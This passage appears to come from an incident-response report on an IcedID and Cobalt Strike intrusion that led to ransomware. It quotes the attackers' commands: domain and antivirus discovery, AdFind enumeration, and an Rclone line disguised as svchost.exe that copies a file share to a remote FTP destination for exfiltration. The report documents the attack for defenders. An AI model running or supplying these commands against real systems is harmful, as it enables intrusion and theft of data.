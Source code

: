 Prior to executing the ransomware, the threat actors created a GPO to disable Windows Defender across all systems/OUs.

The GPO was named “new”.

# Credential Access

Credentials were dumped on a server and domain controller using a Cobalt Strike Beacon.

Initial discovery by the IcedID malware occurred within minutes of execution:
- cmd.exe /c chcp >&2
- WMIC.exe WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get * /Format:List
- ipconfig.exe ipconfig /all
- systeminfo
- net config workstation
- nltest /domain_trusts
- nltest /domain_trusts /all_trusts
- net view /all /domain
- net view /all
- net.exe net group "Domain Admins" /domain



A flurry of LDAP queries were seen coming from wuauclt.exe (Cobalt Strike) on the beachhead.

We believe that activity was related to a Bloodhound scan, as seconds later we see BloodHound results dropped to disk before being deleted.

Once on the Exchange server in the environment, the threat actor performed DNS requests for all domain joined systems and pinged a few to check connectivity.

AdFind was executed on a domain controller to gather additional info such as name, OS, and DNS name.

cmd.exe /C adfind.exe -f objectcategory=computer -csv name cn OperatingSystem dNSHostName > some.csv

# Lateral Movement

For lateral movement, the threat actors used various techniques across the domain, one method being Cobalt Strike.

Cobalt Strike Beacon executables were transferred using SMB and executed via a remote service.

On other systems, PowerShell was used with the same remote service execution.

To facilitate the final ransomware deployment, RDP connections were initiated from a domain controller as well as a secondary server in the environment.

# Collection

The Rclone utility was used to collect information from file shares and to exfiltrate the data.

svchost.exe --config svchost.conf --progress --no-check-certificate copy "\\ServerName\C$\ShareName" ftp1:/DomainName/FILES/C/ShareName

